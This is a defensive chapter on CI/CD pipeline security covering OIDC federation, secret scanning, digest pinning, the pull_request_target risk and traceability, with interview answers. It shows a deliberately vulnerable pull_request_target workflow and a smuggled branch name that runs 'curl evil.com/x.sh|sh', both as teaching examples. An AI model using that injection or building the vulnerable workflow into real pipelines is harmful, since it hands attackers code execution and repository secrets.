

# Pipeline Security {#ch-cicd-security}

> Treat the pipeline as production infrastructure, and close the paths an attacker uses to reach it.

**In this chapter:** why pipelines are targeted · OIDC instead of stored secrets · supply chain pinning and provenance · the pull request trust boundary · traceability

## 💡 The Core Idea

The pipeline holds more privilege than any single developer. It has the source, the cloud
credentials, and push access to the registry — and whatever it produces arrives in production through
a trusted, signed, audited path. A compromised laptop affects one engineer. A compromised pipeline
signs the attacker's code for them. Every control in this chapter follows from that: reduce what the
pipeline holds, pin what it consumes, and record what it did.

## How It Works



**One compromised step is not one compromised build — it is every deployment after it.**

The reachable paths are few and well known, which is what makes this answerable in an interview:

| Path in | What it gets | The control |
| ------- | ------------ | ----------- |
| A stored long-lived cloud key | Everything that role can do, until someone rotates it | OIDC federation |
| A third-party action on a mutable tag | Arbitrary code in your job | Pin to a commit SHA |
| A dependency or base image on a mutable tag | Arbitrary code in your artefact | Lockfile, digest pinning |
| A fork pull request with secrets in scope | Your secrets, from an anonymous contributor | `pull_request`, not `pull_request_target` |
| Untrusted event text in a `run:` block | Shell execution on the runner | Pass through `env:` |

## Secrets: The Hierarchy

| Approach | Risk | Verdict |
| -------- | ---- | ------- |
| Hardcoded in the repository | Permanent — it is in the history forever | ❌ Never |
| Plaintext in the pipeline definition | Visible to everyone with read access | ❌ Never |
| The CI platform's secret store | Long-lived, manual rotation | Acceptable for non-cloud secrets |
| A secrets manager, fetched at runtime | Central, rotatable, audited | ✅ Good |
| **OIDC — no stored secret at all** | Short-lived, scoped, nothing to rotate | ✅ Best |

### OIDC Is the Answer for Cloud Access

The CI platform issues a short-lived signed token whose claims describe the repository, the ref, the
environment and the workflow. The cloud provider validates those claims against a trust policy and
returns temporary credentials. **The trust policy is where the security actually lives** — the YAML
just asks.

```json
{
  "Condition": {
    "StringEquals": {
      "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
      "token.actions.githubusercontent.com:sub": "repo:acme/api:environment:production"
    }
  }
}
```

⚠️ **The most common OIDC mistake is a loose `sub` condition.** `repo:acme/*` means any repository in
the organisation can assume the production deploy role — including a new one an attacker gets
created. Pin the repository, and pin the environment or the branch as well.

For non-cloud secrets — third-party API keys, database passwords — fetch them at runtime using the
OIDC-derived identity rather than copying them into the CI platform's store. Rotation then happens in
one place and no pipeline needs updating.

## Secret Scanning

Stop secrets entering the repository at all, in layers.

| Layer | Catches |
| ----- | ------- |
| Pre-commit hook | Before the commit exists — the cheapest fix |
| Push protection | Blocks the push at the remote |
| A CI job over full history | What the first two missed |
| Provider-side alerts | Known token formats, often revoked automatically |

```yaml
secret-scan:
  steps:
    - uses: actions/checkout@v6
      with: { fetch-depth: 0 } # full history required
    - run: gitleaks detect --redact --exit-code 1
```

⚠️ **A leaked secret is compromised the moment it is pushed**, even if you force-push it away. Forks,
clones and CI caches keep copies. Rotate it first, then clean the history — in that order.

## Supply Chain

| Risk | Mitigation |
| ---- | ---------- |
| A malicious package version | `npm ci` against a committed lockfile |
| A repointed action tag | Pin third-party actions to a **full commit SHA** |
| A mutable base image | Pin by digest — `@sha256:…` |
| A typosquatted package | Allowlist registries, proxy through an internal one |

❌ **Mutable references — whoever owns them can move them:**

```yaml
- uses: some-org/deploy-action@v2 # the tag can be repointed
FROM node:24                       # the tag is rebuilt weekly
```

✅ **Immutable references:**

```yaml
- uses: some-org/deploy-action@a1b2c3d4e5f6… # exact commit
FROM node:24-alpine@sha256:abcd1234…        # exact image
```

> The wave of npm and CI marketplace supply chain attacks through 2025 worked because most consumers
> referenced mutable tags. Digest pinning is the single highest-value control in this chapter, and
> the one most often skipped because it makes upgrades noisier.

### Scanning and Provenance

| Scan | Finds |
| ---- | ----- |
| **SCA** — dependency audit, Dependabot | Known CVEs in your dependencies |
| **SAST** — CodeQL, Semgrep | Insecure code patterns |
| **Container** — Trivy, Grype | OS and library CVEs in the built image |
| **DAST** — OWASP ZAP | Runtime vulnerabilities against a deployed app |

✅ **Fail the build only on high and critical.** Failing on every low-severity finding trains the team
to skip the gate, which costs you the high ones too.

⚠️ Base image CVEs are the largest source of noise. Moving to a distroless or Alpine base often
removes most findings, because there are simply fewer packages installed.

An **SBOM** lists everything inside the artefact, so *"are we affected by this new CVE?"* becomes a
query rather than a week of investigation. Generate it during the build, store it with the artefact,
and sign the artefact so consumers can verify where it came from — with `cosign`, or with the
platform's own build provenance attestations. Verify the signature at deploy time, or signing has
told you nothing.

## Hardening the Pipeline Itself

| Control | Why |
| ------- | --- |
| Least-privilege tokens | Start read-only, widen per job |
| Separate build and deploy roles | A build compromise should not grant deploy |
| Protected branches | Review and passing checks before merge |
| Environment approvals | A human gate in front of production |
| Ephemeral runners | No state carries between builds |
| No self-hosted runners on public repositories | Any fork pull request runs code on your infrastructure |

```yaml
permissions:
  contents: read # workflow default

jobs:
  build:
    permissions: { contents: read } # nothing more needed
  deploy:
    permissions:
      contents: read
      id-token: write # only this job can assume the cloud role
```

### The Pull Request Trust Boundary

`pull_request` runs fork code **without** secrets. `pull_request_target` runs in the base
repository's context **with** them.

❌ **A well-known exploit pattern:**

```yaml
on: pull_request_target # runs with repository secrets
jobs:
  build:
    steps:
      - uses: actions/checkout@v6
        with:
          ref: ${{ github.event.pull_request.head.sha }} # the attacker's code
      - run: npm ci && npm run build # arbitrary code, full secret access
```

An install script alone is enough — the attacker never needs the build to succeed.

✅ Use `pull_request` for anything that executes contributor code. Reserve `pull_request_target` for
metadata-only jobs such as labelling, and never check out the head commit in one.

## Common Mistakes

❌ **Interpolating event data into a shell.** `${{ }}` substitutes before the shell parses the line, so
a branch named `a";curl evil.com/x.sh|sh;"` executes.
✅ Pass it through `env:` and reference it as `$BRANCH`. Never put `${{ github.event.* }}` inside a
`run:` block.

❌ **Deleting the commit that leaked a token and calling it fixed.** Copies already exist.
✅ Rotate first. Treat history rewriting as tidying, not as remediation.

❌ **Signing artefacts and never verifying signatures.** A signature nobody checks is metadata.
✅ Enforce verification at the admission or deploy step, so only images your pipeline produced run.

## Traceability

For anything running in production you should be able to answer four questions, and the mechanisms
are cheap if you set them up before the incident.

| Question | How |
| -------- | --- |
| Which commit produced it? | Tag images with the commit SHA |
| Can it have been swapped since? | Registry tag immutability |
| Who approved the deploy? | Environment protection records |
| Which identity deployed, and when? | Role sessions named with the run ID, in the cloud audit log |

✅ Retain scan reports as artefacts. Being able to prove what was checked is as useful in a review as
the check itself.

## 🔑 Key Takeaways

- The pipeline holds more privilege than any developer, so it deserves production-grade controls.
- OIDC removes stored cloud credentials entirely; the trust policy's `sub` condition is the real control.
- Pin third-party actions to commit SHAs and base images to digests — mutable tags are the supply chain hole.
- A leaked secret is compromised at push time; rotate it, do not just rewrite history.
- `pull_request_target` plus a checkout of the head commit is remote code execution with your secrets.

## Interview Questions

**Q: How do you manage secrets in a CI/CD pipeline?**

For cloud access I remove stored secrets entirely and use OIDC federation: the platform issues a
short-lived signed token, the job exchanges it for temporary credentials, and the trust policy
restricts which repository, branch and environment may assume which role. There is nothing to rotate
or leak. For non-cloud secrets such as third-party API keys, I keep them in a secrets manager and
fetch them at runtime using that same OIDC identity rather than copying them into the CI platform's
store. Alongside that, secret scanning runs at pre-commit and in CI, and any leaked credential is
treated as compromised and rotated rather than deleted from history.

**Q: What is the risk of `pull_request_target` and when would you use it?**

It runs the workflow in the base repository's context, so it has repository secrets and a writable
token, while the pull request may come from an untrusted fork. If such a workflow checks out the pull
request head and runs any build step, install script or test, the contributor's code executes with
full access to your secrets — a complete pipeline compromise from an anonymous pull request. Use
plain `pull_request` for anything that executes contributor code, since it runs without secrets by
design. Reserve `pull_request_target` for workflows that only need metadata, such as labelling or
commenting, and never check out the head commit in them.

**Q: How do you secure the software supply chain?**

Pin everything to immutable references: a committed lockfile with `npm ci`, third-party actions
pinned to full commit SHAs rather than tags, and base images pinned by digest. Scan at several
layers — dependencies for known CVEs, the built image for OS and library vulnerabilities, code for
insecure patterns — and fail the build on high and critical only, so the gate keeps its credibility.
Generate an SBOM during the build and store it with the artefact, so a newly published CVE becomes a
query. Sign the artefact and verify the signature at deploy time, so only images your pipeline
produced can run.

**Q: Where in the pipeline should each security check run?**

At the earliest stage where the issue is detectable. Secret scanning belongs in pre-commit hooks and
push protection, because a secret that reaches the remote is already compromised. Static analysis and
dependency scanning run on the pull request, where the author has context and the fix is cheap.
Container scanning, SBOM generation and signing happen at build time, on the actual artefact. Policy
gates run before deploy. Runtime detection is the backstop for what earlier stages cannot see —
credential misuse, and vulnerabilities disclosed after the deployment.

**Q: A production deployment goes bad and you suspect the pipeline. What do you need in place to investigate?**

Traceability from the running artefact back to a commit. Images tagged with the commit SHA and tag
immutability enabled, so what ran cannot have been silently replaced. Role sessions named with the
pipeline run identifier, so the cloud audit log shows exactly which run made which API calls and
when. Approval records showing who authorised the release. Scan reports retained as artefacts, so you
can prove what was and was not checked. And the pipeline definition in version control, so you can
see whether the pipeline logic changed alongside the code. Without those, the review is guesswork.

## What to Read Next

- [Chapter ?? — GitHub Actions](#ch-github-actions) — the OIDC exchange and `permissions:` in a working workflow
- [Chapter ?? — Building and Hardening Images](#ch-building-and-hardening-images) — digest pinning, build secrets and scanning at the image layer
- [Chapter ?? — Advanced Git](#ch-advanced-git) — removing a secret from history, once it has been rotated
